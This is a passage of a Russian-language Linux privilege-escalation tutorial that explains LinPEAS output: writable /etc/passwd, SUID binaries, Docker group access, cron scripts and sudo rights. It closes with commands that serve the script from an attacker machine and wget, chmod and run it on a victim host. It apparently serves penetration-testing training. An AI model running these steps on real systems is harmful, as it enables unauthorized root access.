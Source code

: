 Здесь читатели могут увидеть интересный модуль файлов LinPEAS в работе. Помимо прочего, скрипт также перечисляет доступные для записи файлы текущего пользователя или целой группы. Видно, что группа Docker имеет доступ для записи. Итак, пользователь может перечислить файл, скопировав его во временный контейнер, а затем обратно в целевое место назначения на хосте. Таким образом, он сможет повысить свои привилегии. Это возможно потому, что некоторые привилегированные пользователи пишут файлы за пределами данной закрытой файловой системы.

![[Pasted image 20240310005859.png]]

Двигаясь дальше, пользователь обнаружил, что существует файл формата python с именем «cleanup.py» внутри каталога nt. Нужно иметь разрешение на выполнение «cleanup.py». Обычно оно связано с cron job. Таким образом, пользователю следует ввести команду вызова Shell:

![[Pasted image 20240310005912.png]]

Проверка SUID: Set User ID – это тип разрешения, который дает пользователям возможность выполнить файл. Те файлы, которые имеют разрешения SUID, доступны для юзеров с высокими привилегиями. Здесь LinPEAS дает пользователю понять, что целевая машина имеет разрешения SUID для find, cp и nano.

![[Pasted image 20240310005929.png]]

LinPEAS также проверяет различные важные файлы на наличие разрешения на запись. Здесь можно увидеть, что целевой сервер содержит файл /etc/passwd, доступный для записи. Это означает, что хакер может создать хэш пользователя и пароля на своем устройстве, а затем добавить полученные данные в файл /etc/passwd, имея доступ Root. Таким образом, появляется возможность скомпрометировать машину.

![[Pasted image 20240310005944.png]]

Далее происходит поиск разрешений Sudo. При их наличии пользователь сможет использовать следующие команды с повышенным доступом без пароля Root. Собственно говоря, это позволит хакеру ссылаться на них в GTFOBIN и найти нужную строку, чтобы получить права Root на целевой машине.

![[Pasted image 20240310005959.png]]

В начале пользователь запускает LinPEAS, принимая SSH целевой машины. Используя его, он с помощью команды «curl» скачивает и запускает скрипт LinPEAS. Может возникнуть ситуация, когда невозможно осуществить эти шаги. Следовательно, тогда человек использует скрипт с помощью команды «python one-liner» на атакующей машине и команды «wget» — на машине жертвы.

```
ls
python -m SimpleHTTPServer 80
```

![[Pasted image 20240310010019.png]]

Пользователь сохранил скрипт в каталог tmp, так как он имеет право на запись. Кроме того, следует предоставить соответствующие разрешения самому скрипту, чтобы выполнить его.

```
cd /tmp
wget 192.168.1.5/linpeas.sh
chmod 777 linpeas.sh
./linpeas.sh
```
